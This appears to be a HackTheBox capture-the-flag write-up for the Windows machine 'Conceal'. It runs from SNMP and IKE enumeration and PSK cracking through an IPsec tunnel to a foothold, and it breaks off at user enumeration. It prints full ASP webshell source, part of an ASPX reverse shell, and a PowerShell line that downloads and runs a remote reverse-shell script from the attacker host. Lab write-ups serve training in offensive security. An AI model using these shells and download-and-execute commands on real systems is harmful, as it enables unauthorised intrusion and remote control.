




# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Conceal](https://www.hackthebox.com/machines/Conceal)


- Machine type:  Windows
- Machine difficulty: 🟥 Hard (<span style="color:#f4b03b;">6.0</span>)

> Conceal is a hard difficulty Windows which teaches enumeration of IKE protocol and configuring IPSec in transport mode. Once configured and working the firewall goes down and a shell can be uploaded via FTP and executed. On listing the hotfixes the box is found vulnerable to ALPC Task Scheduler LPE. Alternatively, `SeImpersonatePrivilege` granted to the user allows to obtain a `SYSTEM` shell.

#### Tools Used

**Linux**:
- gobuster
- hashid
- hash-identifier
- ike-scan
- john
- msfconsole
- msfvenom
- netcat
- netexec
- nmap
- snmpwalk

**Windows**:
- JuicyPotatoNG.exe
- nc64.exe

#### Skills Required

- SNMP Enumeration
- IKE Enumeration
- Windows Enumeration

#### Skills Learned

- IKE Configuration

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.21📌 netmask 255.255.254.0  destination 10.10.14.21
        inet6 dead:beef:2::1013  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::6406:fc2a:5555:56f7  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

`fping 10.10.10.116`:
```
10.10.10.116 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:01 EST
Nmap scan report for 10.10.10.116
Host is up.
Skipping host 10.10.10.116 due to host timeout
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 900.70 seconds
```
❌

`nmap -Pn -sU -p- -T5 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:30 EST
Nmap scan report for 10.10.10.116
Host is up (0.14s latency).
Not shown: 998 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp🌐
500/udp open  isakmp🌐

Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
```

`nmap -Pn -sUV -p500 -T5 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:36 EST
Nmap scan report for 10.10.10.116
Host is up (0.25s latency).

PORT    STATE SERVICE VERSION
500/udp open  isakmp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port500-UDP:V=7.94SVN%I=7%D=1/22%Time=6790E67B%P=x86_64-pc-linux-gnu%r(
SF:IPSEC_START,38,"1'\xfc\xb08\x10\x9e\x89\xdb\x02\xa9\x17\xc60\x12\x81\x0
SF:b\x10\x05\0\xd3\x01Z\xa8\0\0\x008\0\0\0\x1c\0\0\0\x01\x01\x10\0\x0e1'\x
SF:fc\xb08\x10\x9e\x89\xdb\x02\xa9\x17\xc60\x12\x81");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.62 seconds
```

`ike-scan 10.10.10.116`:
```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.10.116    Main Mode Handshake returned HDR=(CKY-R=017894855a92a94c) SA=(Enc=3DES📌 Hash=SHA1📌 Group=2:modp1024📌 Auth=PSK📌 LifeType=Seconds LifeDuration(4)=0x00007080) VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8) VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T) VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n) VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)📌VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable) VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)📌

Ending ike-scan 1.9.6: 1 hosts scanned in 0.143 seconds (7.01 hosts/sec).  1 returned handshake; 0 returned notify
```

`nmap -Pn -sU --script=snmp-brute -p161 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:45 EST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute: 
|_  public - Valid credentials📌

Nmap done: 1 IP address (1 host up) scanned in 4.53 seconds
```

`snmpwalk -v 1 -c 'public' 10.10.10.116`:
```
iso.3.6.1.2.1.1.1.0 = STRING: "Hardware: AMD64 Family 25 Model 1 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 15063 Multiprocessor Free)"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.311.1.1.3.1.1
iso.3.6.1.2.1.1.3.0 = Timeticks: (422748) 1:10:27.48
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"📌
iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
iso.3.6.1.2.1.1.6.0 = ""
iso.3.6.1.2.1.1.7.0 = INTEGER: 76
iso.3.6.1.2.1.2.1.0 = INTEGER: 15

[...]
```

`echo -n '9C8B1A372B1878851BE2C097031B6E43' | wc -c`:
```
32
```

`hashid '9C8B1A372B1878851BE2C097031B6E43'`:
```
Analyzing '9C8B1A372B1878851BE2C097031B6E43'
[+] MD2 
[+] MD5🔍
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM🔍
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
```

`hash-identifier`:
```
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 9C8B1A372B1878851BE2C097031B6E43

Possible Hashs:
[+] MD5🔍
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM🔍
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
[+] MD2(HMAC)

[...]
```

`vim ./hash.txt`:
```
9C8B1A372B1878851BE2C097031B6E43
```

`john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-01-22 07:14) 0g/s 17491Kp/s 17491Kc/s 17491KC/s  fuckyooh21..*7¡Vamos!
Session completed. 
```
❌

`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt ./hash.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Dudecake1!🔑     (?)     
1g 0:00:00:00 DONE (2025-01-22 07:10) 1.449g/s 16262Kp/s 16262Kc/s 16262KC/s DuiveltjE..Dude2443
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

`echo '10.10.14.21 10.10.10.116 : PSK "Dudecake1!"' | sudo tee -a /etc/ipsec.secrets`:
```
10.10.14.21 10.10.10.116 : PSK "Dudecake1!"
```

`cat /etc/ipsec.conf`:
```
# ipsec.conf - strongSwan IPsec configuration file

# basic configuration

config setup
        # strictcrlpolicy=yes
        # uniqueids = no

# Add connections here.

# Sample VPN connections

#conn sample-self-signed
#      leftsubnet=10.1.0.0/16
#      leftcert=selfCert.der
#      leftsendcert=never
#      right=192.168.0.2
#      rightsubnet=10.2.0.0/16
#      rightcert=peerCert.der
#      auto=start

#conn sample-with-ca-cert
#      leftsubnet=10.1.0.0/16
#      leftcert=myCert.pem
#      right=192.168.0.2
#      rightsubnet=10.2.0.0/16
#      rightid="C=CH, O=Linux strongSwan CN=peer name"
#      auto=start
```

`sudo vim /etc/ipsec.conf`:
```
[...]

conn Conceal
	type=transport
	left=10.10.14.21
	leftprotoport=tcp
	right=10.10.10.116
	rightprotoport=tcp
	keyexchange=ikev1
	authby=psk
	esp=3des-sha1
	ike=3des-sha1-modp1024
	ikelifetime=12h
	fragmentation=yes
	auto=start
```

`sudo ifconfig tun0 mtu 1000`

`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1000📌
        inet 10.10.14.21  netmask 255.255.254.0  destination 10.10.14.21
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 298134  bytes 50402356 (48.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 345977  bytes 29765014 (28.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`sudo ipsec stop`:
```
Stopping strongSwan IPsec...
```

`sudo ipsec start --nofork`:
```
Starting strongSwan 5.9.13 IPsec [starter]...
00[DMN] Starting IKE charon daemon (strongSwan 5.9.13, Linux 6.11.2-amd64, x86_64)
00[LIB] providers loaded by OpenSSL: default legacy
00[CFG] install DNS servers in '/etc/resolv.conf'
00[CFG] loading ca certificates from '/etc/ipsec.d/cacerts'
00[CFG] loading aa certificates from '/etc/ipsec.d/aacerts'
00[CFG] loading ocsp signer certificates from '/etc/ipsec.d/ocspcerts'
00[CFG] loading attribute certificates from '/etc/ipsec.d/acerts'
00[CFG] loading crls from '/etc/ipsec.d/crls'
00[CFG] loading secrets from '/etc/ipsec.secrets'
00[CFG]   loaded IKE secret for 10.10.14.21 10.10.10.116📌
00[LIB] loaded plugins: charon aesni aes rc2 sha2 sha1 md5 mgf1 random nonce x509 revocation constraints pubkey pkcs1 pkcs7 pkcs12 pgp dnskey sshkey pem openssl pkcs8 fips-prf gmp agent xcbc hmac kdf gcm drbg attr kernel-netlink resolve socket-default connmark stroke updown eap-mschapv2 xauth-generic counters
00[LIB] dropped capabilities, running as uid 0, gid 0
00[JOB] spawning 16 worker threads
charon (17465) started after 40 ms
07[CFG] received stroke: add connection 'conceal'
07[CFG] added configuration 'conceal'
10[CFG] received stroke: initiate 'conceal'
10[IKE] initiating Main Mode IKE_SA conceal[1] to 10.10.10.116
10[ENC] generating ID_PROT request 0 [ SA V V V V V ]
10[NET] sending packet: from 10.10.14.21[500] to 10.10.10.116[500] (236 bytes)
13[NET] received packet: from 10.10.10.116[500] to 10.10.14.21[500] (208 bytes)
13[ENC] parsed ID_PROT response 0 [ SA V V V V V V ]
13[IKE] received MS NT5 ISAKMPOAKLEY vendor ID
13[IKE] received NAT-T (RFC 3947) vendor ID
13[IKE] received draft-ietf-ipsec-nat-t-ike-02\n vendor ID
13[IKE] received FRAGMENTATION vendor ID
13[ENC] received unknown vendor ID: fb:1d:e3:cd:f3:41:b7:ea:16:b7:e5:be:08:55:f1:20
13[ENC] received unknown vendor ID: e3:a5:96:6a:76:37:9f:e7:07:22:82:31:e5:ce:86:52
13[CFG] selected proposal: IKE:3DES_CBC/HMAC_SHA1_96/PRF_HMAC_SHA1/MODP_1024
13[ENC] generating ID_PROT request 0 [ KE No NAT-D NAT-D ]
13[NET] sending packet: from 10.10.14.21[500] to 10.10.10.116[500] (244 bytes)
14[NET] received packet: from 10.10.10.116[500] to 10.10.14.21[500] (260 bytes)
14[ENC] parsed ID_PROT response 0 [ KE No NAT-D NAT-D ]
14[ENC] generating ID_PROT request 0 [ ID HASH N(INITIAL_CONTACT) ]
14[NET] sending packet: from 10.10.14.21[500] to 10.10.10.116[500] (100 bytes)
15[NET] received packet: from 10.10.10.116[500] to 10.10.14.21[500] (68 bytes)
15[ENC] parsed ID_PROT response 0 [ ID HASH ]
15[IKE] IKE_SA conceal[1] established between 10.10.14.21[10.10.14.21]...10.10.10.116[10.10.10.116]📌

[...]
```

`nmap -Pn -sTV -p- -T5 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:50 EST
Warning: 10.10.10.116 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).
Not shown: 64604 closed tcp ports (conn-refused), 919 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp🌐
80/tcp    open  http🌐
135/tcp   open  msrpc🌐
139/tcp   open  netbios-ssn🌐
445/tcp   open  microsoft-ds🌐
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 753.96 seconds
```

`nmap -Pn -sTV -p- -T5 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 08:07 EST
Warning: 10.10.10.116 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).
Not shown: 64970 closed tcp ports (conn-refused), 553 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 748.60 seconds
```

`netexec smb 10.10.10.116`:
```
SMB         10.10.10.116    445    CONCEAL          [*] Windows 10 Build 15063 x64 (name:CONCEAL) (domain:Conceal) (signing:False) (SMBv1:False)
```

`nmap -Pn -sTV --script=ftp-anon -p21 10.10.10.116`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 08:14 EST
Nmap scan report for 10.10.10.116
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)📌
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.67 seconds
```

`gobuster dir -u http://10.10.10.116/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -b 400,401,404,500 -t 15 -r`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.116/
[+] Method:                  GET
[+] Threads:                 15
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   400,401,404,500
[+] User Agent:              gobuster/3.6
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/upload🔍              (Status: 200) [Size: 177]

[...]
```

`ftp 10.10.10.116`:
```
Connected to 10.10.10.116.
220 Microsoft FTP Service
Name (10.10.10.116:nabla): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49676|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

`rlwrap nc -lnvp 4444`:
```
listening on [any] 4444 ...
```

`wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx`:
```
--2025-01-22 08:19:53--  https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15968 (16K) [text/plain]
Saving to: ‘shell.aspx’

shell.aspx                                      100%[====================================================================================================>]  15.59K  --.-KB/s    in 0.001s  

2025-01-22 08:19:53 (16.1 MB/s) - ‘shell.aspx’ saved [15968/15968]
```

`mv ./shell.aspx ./revsh.aspx`

`vim ./revsh.aspx`:
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
        protected void Page_Load(object sender, EventArgs e)
    {
            String host = "10.10.14.21"; //CHANGE THIS
            int port = 4444; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

[...]
```

`ftp 10.10.10.116`:
```
[...]

ftp> put ./revsh.aspx 
local: revsh.aspx remote: revsh.aspx
229 Entering Extended Passive Mode (|||49679|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************| 16393       17.68 MiB/s    --:-- ETA

421 Service not available, remote server timed out. Connection closed.
16393 bytes sent in 01:00 (0.26 KiB/s)
```

`firefox http://10.10.10.116/upload &`





`locate -i '/asp/'`:
```
/usr/share/webshells/asp/cmd-asp-5.1.asp
/usr/share/webshells/asp/cmdasp.asp

[...]

/home/nabla/tools/webshell/asp/webshell.asp
```

`cp /home/nabla/tools/webshell/asp/webshell.asp ./`

`cat ./webshell.asp`:
```asp
<!--
ASP Webshell
Working on latest IIS 
Referance :- 
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->


<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)
    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>


<HTML>
<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>
<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's local address:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>
</HTML>
```

`ftp 10.10.10.116`:
```
[...]

ftp> put webshell.asp 
local: webshell.asp remote: webshell.asp
229 Entering Extended Passive Mode (|||49686|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************|  1412        4.34 MiB/s    --:-- ETA

421 Service not available, remote server timed out. Connection closed.
1412 bytes sent in 01:00 (0.02 KiB/s)
```



`locate -i 'powershelltcp'`:
```
/home/nabla/tools/nishang/Shells/Invoke-PowerShellTcp.ps1
/home/nabla/tools/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/home/nabla/tools/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
```

`cp /home/nabla/tools/nishang/Shells/Invoke-PowerShellTcp.ps1 ./revsh.ps1`

`cat ./revsh.ps1`:
```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

[...]
```

`echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 4444' | tee -a ./revsh.ps1`:
```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 4444
```

`python3 -m http.server 80`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.21/revsh.ps1')
```



```
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.116] 49712
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\SysWOW64\inetsrv>
```
🐚


`whoami`:
```
conceal\destitute
```

`whoami /all`:
```
USER INFORMATION
----------------

User Name         SID                                          
================= =============================================
conceal\destitute S-1-5-21-4220874023-1166253506-927404976-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID                                                                                              Attributes                                        
==================================== ================ ================================================================================================ ==================================================
Everyone                             Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                   Well-known group S-1-5-3                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113                                                                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568                                                                                     Mandatory group, Enabled by default, Enabled group
